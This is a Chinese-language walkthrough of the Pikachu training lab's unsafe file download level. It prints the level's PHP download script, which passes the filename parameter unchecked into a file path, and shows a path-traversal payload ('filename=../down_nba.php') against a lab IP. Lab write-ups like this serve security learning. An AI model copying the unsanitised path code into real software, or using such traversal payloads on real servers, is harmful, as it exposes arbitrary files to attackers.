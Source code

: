 # Filedownload

# 一、代码审计

该关卡的代码如下

```php
<?php


$PIKA_ROOT_DIR =  "../../";

include_once $PIKA_ROOT_DIR."inc/function.php";

header("Content-type:text/html;charset=utf-8");
// $file_name="cookie.jpg";
$file_path="download/{$_GET['filename']}";
//用以解决中文不能显示出来的问题
$file_path=iconv("utf-8","gb2312",$file_path);

//首先要判断给定的文件存在与否
if(!file_exists($file_path)){
    skip("你要下载的文件不存在，请重新下载", 'unsafe_down.php');
    return ;
}
$fp=fopen($file_path,"rb");
$file_size=filesize($file_path);
//下载文件需要用到的头
ob_clean();//输出前一定要clean一下，否则图片打不开
Header("Content-type: application/octet-stream");
Header("Accept-Ranges: bytes");
Header("Accept-Length:".$file_size);
Header("Content-Disposition: attachment; filename=".basename($file_path));
$buffer=1024;
$file_count=0;
//向浏览器返回数据

//循环读取文件流,然后返回到浏览器feof确认是否到EOF
while(!feof($fp) && $file_count<$file_size){

    $file_con=fread($fp,$buffer);
    $file_count+=$buffer;

    echo $file_con;
}
fclose($fp);
?>
```

通过观察源码可以得到该关卡的代码无任何防护

***

# 二、通关教程

点击球员名字后可以看到下载地址如下所示，filename传递的参数为下载的文件

```
http://192.168.118.154/pikachu/vul/unsafedownload/execdownload.php?filename=kb.png
```

构造如下Payload下载任意文件

```
192.168.118.154/pikachu/vul/unsafedownload/execdownload.php?filename=../down_nba.php
```

![image-20230308140508364](C:\Users\linyunong\Desktop\Note\pikachu靶场通关教程\Unsafe file download\images\image-20230308140508364.png)